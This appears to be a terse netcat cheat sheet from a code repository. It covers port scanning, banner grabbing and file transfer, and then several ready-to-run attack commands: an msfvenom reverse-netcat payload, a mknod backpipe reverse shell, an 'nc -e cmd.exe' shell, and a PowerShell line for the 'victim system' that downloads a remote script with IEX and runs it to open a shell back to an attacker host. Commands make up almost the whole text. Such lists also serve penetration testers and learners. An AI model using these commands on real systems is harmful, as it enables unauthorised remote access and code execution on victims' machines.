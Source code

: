 

Port scanning :
```bash
nc -vnz 192.168.1.105 21-100  # quickly identify open  ports in target system.
nc -vzu 192.168.1.105 161  #for UDP ports
```


Chatting :
```bash
nc -lnvp 1234 #listner
nc 192.168.1.109 1234 #client
```

Banner grabbing:
```bash
nc 192.168.1.105 21 
nc 192.168.1.105 22
```

File Transfer:
```bash
nc -lvnp 5555 < file.txt                 #listener
nc 192.168.1.109 5555 > file.txt  #client 
```

uing msfvenom:
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.109 lport=6666 R #payload generator #start the listener in attacker machine.
```

security bypass using mknod:
```bash
#run ingtarget machine
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc 192.168.1.109 443 1>/tmp/backpipe
```


random port generate:
```bash
nc -lv –r
```

http server banner :
```bash
printf "GET / HTTP/1.0\r\n\r\n" | nc 192.168.154.132 80 | head -n 30
```

reverse shell :
```bash
nc -nvlp 4444 #server listener
nc.exe 192.168.1.109 4444 -e cmd.exe #client connect
```


Advance enhancement with netcat or alternative :
```bash
rlwrap nc -lvnp 4444
rcat listen -ib 1234
pwncat -l 1234 --self-inject /bin/bash:192.168.1.7:1234
```


Windows tty shell :
```bash
#victum system
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.154.132 5555

#attackker system
stty raw -echo; (stty size; cat) | nc -lvnp 5555
```
